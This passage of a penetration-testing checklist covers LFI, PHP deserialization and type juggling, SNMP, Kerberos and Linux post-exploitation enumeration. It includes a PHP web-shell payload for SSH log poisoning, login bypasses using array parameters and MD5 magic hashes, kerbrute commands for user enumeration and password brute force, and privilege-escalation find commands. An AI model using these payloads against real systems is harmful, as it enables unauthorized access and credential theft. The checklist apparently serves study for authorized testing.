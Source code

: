 * [ ] LFI:
  * [ ] rfi-lfi list
  * [ ] /var/auth/log may contain ssh logs, which can be poisoned: `ssh '<?php system($_GET['cmd']);?>'@...`
  * [ ] If any logs are found, check service and try poisoning them
  * [ ] Check for `/webdav`. If available, you can use `cadaver` to put files.
* [ ] SSRF
  * [ ] Run responder
* [ ] PHP Serialization
  * [ ] https://snoopysecurity.github.io/web-application-security/2021/01/08/02\_php\_object\_injection\_exploitation-notes.html
  * [ ] See serialize.php from "Injecto"
* [ ] PHP Type juggling
  * [ ] if you encounter `==` in php code, you can bypass it. e.g.: `username=admin&password[]=` (see Potato writeup in vulnhub https://www.infosecarticles.com/potato-1-vulnhub-walkthrough/)
  * [ ] the value "QNKCDZO" in md5 is "0e830400451993494058024219903391". You can abuse this if you know the md5 value of a given hash starts with "0e". This is vulnerable in case you see php code using `!=`. For example: `if (!$user || (md5($password) != $user['password'])) {`
* [ ] Other stuff
  * [ ] test things you find in HTTP as username for the ssh server. e.g. if you found "gaara.jpg" then try gaara as username for ssh.
  * [ ] Always sniff traffic and look at cookies
  * [ ] Use the name of the machine for bruteforcing (directories, passwords, usernames...)
* [ ] File upload: https://book.hacktricks.xyz/pentesting-web/file-upload#bypass-file-extensions-checks

### SNMP

* [ ] Best enumeration tool: `snmp-check`

### KERBEROS

* [ ] Bruteforce users: `kerbrute userenum -d <domain> --dc <ip> -o kerbrute-users.txt <users.txt>`
* [ ] Bruteforce password: `kerbrute bruteuser -d <domain> --dc <ip> -o kerbrute-pass.txt /usr/share/wordlists/rockyou.txt <user>@<domain>`

## POST-EXPLOITATION

### LINUX

* [ ] OS version: `uname -a`
* [ ] Groups: `id`
* [ ] IP: `ifconfig` `ip a s` `ip a`
* [ ] Sudoers: `sudo -l`
* [ ] Crontabs: `cat /etc/crontab`
  * [ ] Check LD\_LIBRARY\_PATH for library hijack https://book.hacktricks.xyz/linux-hardening/privilege-escalation/payloads-to-execute#overwriting-a-library
* [ ] SUID binaries: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt`
* [ ] User files: `find / -user $USER 2>/dev/null | grep -v "proc\|sys\|run" > $USER-files.txt`
* [ ] Group files: `find / -group $GROUP -ls 2>/dev/null | grep -v "home\|tmp\|proc" > group-files.txt`
* [ ] Writable files: `find /etc -type f -writable 2>/dev/null`
* [ ] Passwords in config files: `/var/www/html`
* [ ] Internal services: `ss -tunlp` `netstat -tulnp`
* [ ] Kernel exploits: `https://github.com/jondonas/linux-exploit-suggester-2`
* [ ] Sites enabled: `/etc/apache2/sites-enabled`
* [ ] Log files
* [ ] Backups
* [ ] Reused passwords (test username as password too, root:root)
* [ ] Apps in /opt
  * [ ] Revert .pyc with uncompyle6
* [ ] Running proccesses `ps -aux`